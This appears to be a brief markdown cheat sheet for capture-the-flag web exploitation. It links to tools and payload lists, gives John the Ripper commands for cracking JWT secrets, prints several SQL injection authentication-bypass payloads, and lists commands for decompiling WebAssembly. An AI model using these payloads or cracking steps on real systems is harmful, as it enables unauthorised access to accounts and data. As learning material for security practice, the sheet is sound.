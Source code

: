 # Web Exploitation

## JavaScript, JS

### javascript deobfuscator

https://deobfuscate.io/

### JWT

https://jwt.io/

`john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt jwt.txt`

`john --show jwt.txt`

## SQL Injection

- https://portswigger.net/web-security/sql-injection/cheat-sheet
- https://sqlwiki.netspi.com/

### tools:

- BurpSuite Intruder
- [sqlmap](https://github.com/sqlmapproject/sqlmap)
- TODO: ffuz
- [more...](https://github.com/The-Art-of-Hacking/h4cker/blob/master/web_application_testing/sql-injection-tools.md)

### payloads:

- https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt
- https://github.com/payloadbox/sql-injection-payload-list
- https://github.com/swisskyrepo/PayloadsAllTheThings

Tricks:

- `admin' or 1=1;--`
- `ad'||'min'/*` // concatenation in SQLite
- `SELECT username, password FROM users WHERE username='ad'||'min' AND password='a' is not 'b'`
- `SELECT username, password FROM users WHERE username='ad'||'min' except select' AND password=','' `
- `SELECT username, password FROM users WHERE username='ad'||'min' AND password=''glob'*'`

## WASM, web assembly, WebAssembly

[The WebAssembly Binary Toolkit](https://github.com/WebAssembly/wabt)

Instructions

`sudo apt install wabt`

### to wat [WebAssembly text](https://developer.mozilla.org/en-US/docs/WebAssembly/Understanding_the_text_format)

`wasm2wat --generate-names script.wasm > script.wat`

#### to c

`wasm2c main.wasm -o wasm.c`

### to pseudo code

`wasm-decompile main.wasm -o wasm.dcmp`

### wasmtime

Standalone JIT-style runtime for WebAssembly, using Cranelift

https://github.com/bytecodealliance/wasmtime

https://wasmtime.dev/

for python:

https://github.com/bytecodealliance/wasmtime-py
